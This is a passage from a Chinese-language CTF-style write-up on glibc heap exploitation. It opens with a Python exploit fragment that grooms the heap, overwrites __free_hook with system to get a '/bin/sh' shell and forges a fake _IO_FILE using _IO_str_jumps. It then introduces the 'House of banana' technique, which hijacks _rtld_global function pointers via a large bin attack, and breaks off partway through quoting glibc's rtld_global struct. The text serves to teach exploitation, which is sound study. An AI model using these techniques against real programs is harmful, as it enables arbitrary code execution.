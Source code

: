 ```python
add(0,0x200)
add(4,0xa0)
delete(0)
add(4,0x160)

add(1,0x200)
add(4,0xa0)
delete(1)
add(4,0x160)

add(4,0xa0)
edit(1,b'b'*0x168+p64(0xa1)+p64(heap+0x3b60)+p64(free_hook-0x10-0x10))
add(0,0x90)
edit(0,b"/bin/sh\x00"+p64(0)+p64(system))


heap=heap+0x3b70
pd=p64(0)*3+p64(0x1c)+p64(0)+p64(heap)+p64(heap+26)
pd=pd.ljust(0xc8,b'\x00')
pd+=p64(_IO_str_jumps)
edit(3,pd)

cho(5)
ia()
```



### House of banana

该利用方法是由ha1vk师傅发现的，整体思路是使用large_bin attack劫持保存在ld.so里的`_rtld_global`结构体中的数据，修改 `_rtld_global `结构体中的内容来对

```
exit->_dl_fini->_rtld_global结构体中的函数指针
```

的函数调用链中的函数指针进行劫持，其中有多个地方对_rtld_global结构体进行检测，这里参考cat03师傅的方法绕过检测

> 一开始想的是覆盖libc中指向`_rtld_global`结构体的指针，但是由于保存该指针的地址是不可写的，只能直接修改位于ld.so中的`_rtld_global`结构体

其指向的结构体定义如下

```c
struct rtld_global
{
#endif
  /* Don't change the order of the following elements.  'dl_loaded'
     must remain the first element.  Forever.  */

/* Non-shared code has no support for multiple namespaces.  */
#ifdef SHARED
# define DL_NNS 16
#else
# define DL_NNS 1
#endif
  EXTERN struct link_namespaces
  {
    /* A pointer to the map for the main map.  */
    struct link_map *_ns_loaded;
    /* Number of object in the _dl_loaded list.  */
    unsigned int _ns_nloaded;
    /* Direct pointer to the searchlist of the main object.  */
    struct r_scope_elem *_ns_main_searchlist;
    /* This is zero at program start to signal that the global scope map is
       allocated by rtld.  Later it keeps the size of the map.  It might be
       reset if in _dl_close if the last global object is removed.  */
```